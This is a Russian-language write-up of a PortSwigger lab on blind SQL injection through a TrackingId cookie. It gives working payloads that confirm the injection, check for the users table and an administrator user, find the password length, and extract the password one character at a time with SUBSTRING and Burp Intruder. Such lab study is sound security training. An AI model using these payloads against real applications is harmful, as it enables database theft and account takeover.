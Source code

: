 # Blind SQL injection with conditional responses

## Theory

<h3>Использование слепой инъекции SQL путем использования условных ответов</h3>

Рассмотрим приложение, которое использует отслеживающие файлы cookie для сбора аналитики об использовании. Запросы к приложению включают такой заголовок cookie:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

Когда запрос, содержащий TrackingId cookie, обрабатывается, приложение определяет, является ли пользовать известным, с помощью SQL-запроса, подобного этому:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Этот запрос уязвим для внедрения SQL иньекции, но результаты запроса не возвращаются пользователю. Однако приложение ведет себя по-разному в зависимости от того, возвращает ли запрос какие-либо данные. Если он возвращает данные (поскольку был отправлен распознанный TrackingId), то на странице отображается сообщение «Welcome back».

Этого поведения достаточно, чтобы иметь возможность использовать уязвимость слепой инъекции SQL и извлекать информацию, вызывая различные ответы, в зависимости от введенного условия. Чтобы увидеть, как это работает, предположим, что два запроса отправлены по очереди, и содержат следующие значения TrackingId cookie:
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

Первое из этих значений приведет к тому, что запрос вернет результаты, поскольку введенное условие **AND '1'='1** истинно, и поэтому будет отображаться сообщение «Welcome back». Второе значение приведет к тому, что запрос не вернет никаких результатов, поскольку введенное условие является ложным, и поэтому сообщение «Welcome back» не будет отображаться. Это позволяет нам определить ответ на любое введенное условие и, таким образом, извлекать данные по одному биту за раз.

Например, предположим, что есть таблица **Users** со столбцами **Username** и **Password** и пользователь с именем «Administrator». Мы можем определять пароль для этого пользователя, отправляя серию входных данных для проверки пароля по одному символу за раз.

Для этого начнем со следующего запроса:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

Этот запрос возвращает сообщение «Welcome back», указывающее, что введенное условие истинно, и поэтому первый символ пароля больше, чем m.

Далее мы отправляем следующий запрос:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

Этот запрос не возвращает сообщение «Welcome back», значит введенное условие ложно, поэтому первый символ пароля меньше t.

Теперь мы отправляем следующий запрос, который возвращает сообщение «Welcome back», тем самым подтверждая, что первый символ пароля — s:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/1.png)

Выбираем пункт Lifestyle. Отправим запрос, чтобы удостовериться, что страница уязвима к SQL-иньекции, и что страница возвращает сообщение «Welcome back».
```
0zI'+AND+1=1--;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/2.png)

Проверим, существует ли таблица Users:
```
0zI'+AND+(SELECT+'x'+FROM+users+LIMIT+1)='x'--;
```

* Оператор SQL LIMIT позволяет вывести указанное число строк из таблицы

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/3.png)

Убедимся, что в таблице Users есть пользователь с именем Administrator:
```
0zI'+AND+(SELECT+username+FROM+users+WHERE+username='administrator)='administrator'--;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/4.png)

Следующим шагом является определение количества символов в пароле пользователя Administrator. Изменяя число LENGTH(password)>**1** узнаем, что длина пароля равна 20 символам.
```
0zI'+AND+(SELECT+username+FROM+users+WHERE+username='administrator+AND+LENGTH(password)>1)='administrator'--;
```

* Функция LENGTH используется для подсчета количества символов в строках

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/5.png)

После определения длины пароля следующим шагом будет проверка символа в каждой позиции, чтобы определить его значение. Отправляем запрос в Burp Intruder и заключаем нужные нам значения для перебора в специальные символы. В фильтре выбираем поиск по слову. Получаем пароль.
```
0zI'+AND+(SELECT+SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')='a--;
```

* Функция SUBSTRING вырезает и возвращает заданное количество символов из строки. Первым параметром функция принимает поле или строку, вторым параметром - с какой позиции начинать вырезания (нумерация символов начинается с 1), третьем параметром - сколько символов брать. Третий параметр не является обязательным. Если он не указан, текст будет вырезан с указанной позиции и до конца строки.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/6.png)

Логинимся под администратора и получаем ответ от приложения.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_responses/assets/7.png)
